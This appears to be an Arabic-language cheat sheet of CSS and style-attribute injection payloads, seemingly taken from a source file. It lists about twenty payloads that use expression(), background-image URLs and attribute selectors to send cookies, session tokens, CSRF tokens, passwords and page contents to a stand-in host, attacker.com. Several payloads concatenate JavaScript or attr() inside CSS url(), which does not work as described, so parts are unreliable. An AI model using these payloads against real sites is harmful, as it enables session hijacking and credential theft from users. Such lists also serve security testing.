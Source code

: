#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<style>input:focus { background-image:url('http://attacker.com/log?focus=1'); }</style>`).
  - جرب خصائص CSS أخرى (مثل `list-style-image`، `border-image`).
  - اختبر تسريب أحرف تدريجيًا باستخدام selectors مثل `[value^="a"]`، `[value^="b"]`، إلخ.
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<style>input[value$="z"] { background-image:url('http://attacker.com/log?value=z'); }</style>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. حقن باستخدام تعبير expression() (Internet Explorer):
- <div style="width:expression(alert('XSS'))">: ينفذ تنبيهًا في IE.
- <div style="width:expression(fetch('http://attacker.com/log?c='+document.cookie))">: يرسل ملفات تعريف الارتباط.
- <div style="width:expression(document.location='http://attacker.com')">: يعيد توجيه المستخدم.
- <div style="width:expression(fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML}))">: يرسل محتوى الصفحة.
- <div style="width:expression(new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'))">: يرسل رمز الجلسة.

2. حقن باستخدام background-image لتسريب البيانات:
- <div style="background-image:url('http://attacker.com/log')">: يرسل طلبًا لتأكيد التنفيذ.
- <div style="background-image:url('http://attacker.com/log?d='+document.cookie)">: يحاول إرسال ملفات تعريف الارتباط.
- <div style="background-image:url('http://attacker.com/log?d='+document.domain)">: يرسل نطاق الصفحة.
- <div style="background-image:url('http://attacker.com/log?l='+window.location.href)">: يرسل عنوان URL الحالي.
- <div style="background-image:url('http://attacker.com/log?s='+localStorage.getItem('token'))">: يحاول إرسال رمز الجلسة.

3. تسريب البيانات باستخدام CSS Selectors:
- <style>input[value="secret"] { background-image:url('http://attacker.com/log?value=secret'); }</style>: يرسل قيمة حقل الإدخال.
- <style>[data-token="abc123"] { background-image:url('http://attacker.com/log?token=abc123'); }</style>: يرسل قيمة السمة data-token.
- <style>input[value^="s"] { background-image:url('http://attacker.com/log?value=s'); }</style>: يرسل أول حرف من القيمة.
- <style>#csrf-token[value="xyz789"] { background-image:url('http://attacker.com/log?csrf=xyz789'); }</style>: يرسل رمز CSRF.
- <style>input[type="password"] { background-image:url('http://attacker.com/log?pass='+this.value); }</style>: يحاول إرسال كلمة المرور.

4. حقن باستخدام خاصية content:
- <style>p::after { content: attr(data-secret); background-image:url('http://attacker.com/log?s='+attr(data-secret)); }</style>: يحاول إرسال قيمة data-secret.
- <style>div::before { content: attr(id); background-image:url('http://attacker.com/log?id='+attr(id)); }</style>: يرسل معرف العنصر.
- <style>input::after { content: attr(value); background-image:url('http://attacker.com/log?value='+attr(value)); }</style>: يحاول إرسال قيمة الحقل.
- <style>p::after { content: 'secret'; background-image:url('http://attacker.com/log?text=secret'); }</style>: يرسل نصًا ثابتًا.
- <style>[data-token]::after { content: attr(data-token); background-image:url('http://attacker.com/log?token='+attr(data-token)); }</style>: يرسل قيمة data-token.
